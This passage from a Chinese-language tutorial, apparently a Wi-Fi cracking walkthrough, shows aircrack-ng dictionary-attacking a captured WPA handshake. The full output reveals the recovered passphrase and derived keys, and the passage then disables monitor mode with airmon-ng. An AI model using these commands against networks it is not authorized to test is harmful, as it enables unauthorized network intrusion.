 使用命令：`aircrack-ng -w 密码字典 <包含握手包的 cap 文件>`

~~~
netcon@conwlt:~/workspace$ aircrack-ng -w wpa-dictionary/common.txt android-01.cap 
Opening android-01.cap
Read 675 packets.

   #  BSSID              ESSID                     Encryption

   1  22:47:DA:62:2A:F0  AndroidAP                 WPA (1 handshake)

Choosing first network as target.

Opening android-01.cap
Reading packets, please wait...

                                 Aircrack-ng 1.2 rc4

      [00:00:00] 12/2492 keys tested (828.33 k/s) 

      Time left: 2 seconds                                       0.48%

                          KEY FOUND! [ 1234567890 ]


      Master Key     : A8 70 17 C2 C4 94 12 99 98 4B BB BE 41 23 5C 0D 
                       4A 3D 62 55 85 64 B2 10 11 79 6C 41 1A A2 3B D3 

      Transient Key  : 58 9D 0D 25 26 81 A9 8E A8 24 AB 1F 40 1A D9 ED 
                       EE 10 17 75 F9 F1 01 EE E3 22 A5 09 54 A8 1D E7 
                       28 76 8A 6C 9E FC D3 59 22 B7 82 4E C8 19 62 D9 
                       F3 12 A0 1D E9 A4 7C 4B 85 AF 26 C5 BA 22 42 9A 

      EAPOL HMAC     : 22 C1 BD A7 BB F4 12 A5 92 F6 30 5C F5 D4 EE BE 
~~~

根据以上输出，我们已经破解成功！Wi-Fi 密码是：`1234567890`

### 8. 无线网卡退出监听模式

使用命令：`airmon-ng stop <处于监听模式的无限网卡名称>`

~~~
netcon@conwlt:~/workspace$ sudo airmon-ng stop wlp8s0mon

PHY	Interface	Driver		Chipset

phy0	wlp8s0mon	iwlwifi		Intel Corporation Centrino Wireless-N 2230 (rev c4)

		(mac80211 station mode vif enabled on [phy0]wlp8s0)

		(mac80211 monitor mode vif disabled for [phy0]wlp8s0mon)

~~~
